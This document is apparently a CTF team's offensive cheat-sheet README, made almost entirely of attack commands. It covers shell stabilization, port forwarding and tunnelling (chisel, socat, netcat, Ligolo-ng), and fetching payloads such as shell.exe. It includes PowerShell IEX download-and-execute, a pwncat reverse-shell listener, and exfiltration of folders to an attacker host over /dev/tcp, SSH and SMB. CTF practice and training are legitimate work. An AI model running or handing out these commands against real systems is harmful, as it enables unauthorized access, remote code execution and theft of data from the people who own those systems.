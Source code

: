 # 🄿🅄🅁🄿🄻🄴🅂🅃🄾🅁🄼 🅃🅃🄿🅂

A collection of commands, tools, techniques and procedures of the purplestorm ctf team.

## Table of Contents

- [Basics](#basics)
  - [Stabilizing Linux shell](#stabilizing-linux-shell)
  - [Port forwarding](#port-forwarding-1)
  - [Transfering files](#transfering-files)
- [Tooling](#tooling)
  - [Swaks](#swaks)
  - [Ligolo-ng](#ligolo-ng)
  - [CrackMapExec](CrackMapExec.md)
- [C2](#c2)
  - [Sliver](Sliver.md)
- [Databases](#databases)
  - [SQL Injection](SQL%20Injection.md)
- [Payloads](#payloads)
  - [Reverse Shell](#reverse-shell)
- [Exfiltrating Data](#exfiltrating-data)


## Basics

### Stabilizing Linux shell

```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
screen
```

### Port forwarding

#### SSH:

On kali:

```
ssh -N -L 80:localhost:80 user@10.10.10.10 -C
```

#### Chisel:

```
./chisel server -p 8000 --reverse #Server -- Attacker
./chisel client 10.10.16.3:8000 R:100:172.17.0.1:100 #Client -- Victim
```

#### Socat:

On victim:

```
socat tcp-listen:8080,reuseaddr,fork tcp:localhost:9200 &
```

#### Netcat:

On victim:

```
nc -nlvp 8080 -c "nc localhost 1234"
```

## Transfering files

### Windows

cmd:

```
iwr -uri "http://10.10.10.10:8080/shell.exe" -outfile "shell.exe"

wget -O shell.exe 10.10.10.10:8000/shell.exe

certutil -urlcache -f  http://10.10.10.10:8000/shell.exe C:\inetpub\shell.exe
```

Powershell:

```
Invoke-WebRequest http://10.10.10.10:8000/shell.exe -OutFile shell.exe

powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.10.10:8000/shell.exe', 'shell.exe')"

powershell "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/something.ps1')"
```

via SMB:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .    # On attacker

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe    # On target
```

### Linux

```
wget http://10.10.10.10:8000/some.sh

curl -o some.sh http://10.10.10.10:8000/some.sh
```

via base64:

```
cat shell.sh | base64 -w 0   # On attacker
echo <base64encoded> | base64 -d > shell.sh   # On target
```
via scp:
```
scp some.sh user@10.10.10.10:/tmp/some.sh   # On attacker
```

## Tooling

### Swaks

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```c
swaks --server example.com --port 587 --auth-user "user@example.com" --auth-password "password" --to "user@target.com" --from ""user@example.com" --header "Subject: foobar" --body "\\\<LHOST>\x"
```

### Ligolo-ng

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

#### Prepare Tunnel Interface

```c
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
$ sudo ip link set ligolo up
```

#### Setup Proxy on Attacker Machine

```c
$ ./proxy -laddr <LHOST>:443 -selfcert
```

#### Setup Agent on Target Machine

```c
$ ./agent -connect <LHOST>:443 -ignore-cert
```

#### Configure Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

#### Port Forwarding

```c
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```

## Payloads

### Reverse Shell

- [https://github.com/calebstewart/pwncat](https://github.com/calebstewart/pwncat)

```
pip install pwncat-cs
Listener: pwncat-cs 192.168.1.1 4444
(To change from pwncat shell to local shell, use Ctrl+D)
```

## Exfiltrating Data

### Linux

#### via TCP socket, ebcdic and base64

On kali:

```
nc -nlvp 80 > datafolder.tmp
```

On target:

```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/10.10.10.10/80
```

On kali:

```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```

#### via SSH

On target:

```
tar zcf - /tmp/datafolder | ssh root@<attacker_ip> "cd /tmp; tar zxpf -"
```

On kali:

```
cd /tmp/datafolder
```

### Windows

via SMB server:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -username user -password pass share . -smb2support  # On kali
net use \\10.10.16.5\share /u:user pass   # On victim
copy C:\Users\user\Desktop\somefile.txt \\10.10.16.5\share\somefile.txt   # On victim
```

via pscp:

```
pscp Administrator@10.10.10.10:/Users/Administrator/Downloads/something.txt
```
